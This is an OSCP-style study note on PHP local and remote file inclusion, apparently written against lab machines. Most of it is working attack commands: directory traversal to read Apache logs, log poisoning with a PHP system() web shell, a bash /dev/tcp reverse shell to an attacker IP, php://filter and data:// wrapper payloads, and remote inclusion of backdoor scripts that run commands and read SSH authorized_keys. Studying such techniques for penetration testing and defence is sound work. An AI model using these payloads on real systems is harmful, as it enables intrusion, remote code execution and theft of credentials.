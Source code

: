 ```yaml
---
aliases:
  - File Inclusion
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - web_application
  - web_app
  - web_app_attack
  - file_inclusion
author: Mehdi N Tehrani
creat_date: 2023-12-24
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Local File Inclusion
#local_file_inclusion #lfi
## Log poisoning
#log_poisoning #apache2 #linux
We can use directory traversal or any other method to find out what info is getting logged.
e.g. in apache logs are stored in `/var/log/apache2/access.log` file. 
With the following we can find out that User-Agent header gets stored in this file.
 `curl http://<domain>/index.php?page=../../../../../../../../../var/log/apache2/access.log`
So we can make an HTTP call with the following user agent:
`Mozilla/5.0 <?php echo system($_GET['cmd']) ?>`
This will get stored in `access.log` file and then by making another:
`curl http://<domain>/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps`
this will run `ps` on the machine and prints the output on the page
Now that we have RCE #rce on remote server, we can get a reverse shell with the following URL:
`http://<domain>/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.216%2F7777%200%3E%261%22`
decoded command: `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`

#windows #xampp #apache2
in Windows if xampp is serving PHP, logs are stored in the following path:
`C:\xampp\apache\logs\`
- Read the logs:
`curl -s --path-as-is --proxy 127.0.0.1:8080 'http://192.168.222.193/meteor/index.php?page=../../../../../../../../../xampp/apache/logs/access.log'`
- Poison the log
`curl -s --path-as-is --proxy 127.0.0.1:8080 'http://192.168.222.193/meteor/index.php' --user-agent 'curl <?php system($_GET['cmd'])?>'`
- Read the file of interest:
`curl -s --path-as-is --proxy 127.0.0.1:8080 'http://192.168.222.193/meteor/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt'`



Other than PHP, the following server-side languages can also be exploited:
#perl #asp #asp_dotnet #jsp
- Perl
- [Active Server Pages Extended (ASP.NET)](https://en.wikipedia.org/wiki/ASP.NET)
- [Active Server Pages (ASP)](https://en.wikipedia.org/wiki/Active_Server_Pages)
- [Java Server Pages (Jakarta Server Pages)](https://en.wikipedia.org/wiki/Jakarta_Server_Pages)
- Node.js

# PHP Wrappers
#php_wrapper 
PHP wrappers can be used to represent and access local or remote filesystems and other functionalities.

## filter wrapper
#php #filter #wrapper
`php://filter`
Using `php://filter`, we can also display the contents of executable files such as .php, rather than executing them.
In the following example, we make the admin.php file to be retrieved in its raw form (before being processed) encoded into base-64. 
`curl http://<host>/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
Sensitive data might be stored in the PHP file which can be retrieved this way.

Another example, to obtain base64 encoded string of `/var/www/html/backup.php` file on the server
`curl -s --path-as-is --proxy 127.0.0.1:8080 'http://192.168.222.16/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php'`
## data wrapper
#php #data #wrapper
`php://data`
This wrapper is used to embed data elements as plaintext or base64-encoded data in the running web application's code. This offers an alternative method when we cannot poison a local file with PHP code. It will **not** work in a default PHP installation. 
> To exploit it, the [allow_url_include](https://www.php.net/manual/en/filesystem.configuration.php) setting needs to be enabled. `allow_url_include` is deprecated as of PHP 7.4.0 and default value is set to `0` (disabled).

e.g.
`curl "http://<host>/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`
or base-64 encoded: 
```
$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
```
to list files in current working directory:
`curl "http://<host>/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`
or the following to get os version:
`curl -s --path-as-is --proxy 127.0.0.1:8080 'http://192.168.222.16/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbY21kXSk/Pgo=&cmd=uname%20-a' | rg -i linux`
# Remote File Inclusion
#remote_file_inclusion #rfi
The `allow_url_include` option needs to be enabled to leverage RFI which is disabled by default in modern PHP and deprecated as of PHP 7.4.0.
RFI vulnerabilities allow us to include files from a *remote* system over **HTTP** or **SMB**.
PHP webshells in the `/usr/share/webshells/php/` in Kali can be used for RFI

`curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"`

another example, use `simplebackdoor.php` script:
`curl -s 'http://192.168.222.16/meteor/index.php?page=http://192.168.45.216/sb.php&cmd=cat%20/home/elaine/.ssh/authorized_keys'`

get a reverse shell:
`curl -s 'http://192.168.222.16/meteor/index.php?page=http://192.168.45.216/rev.php'`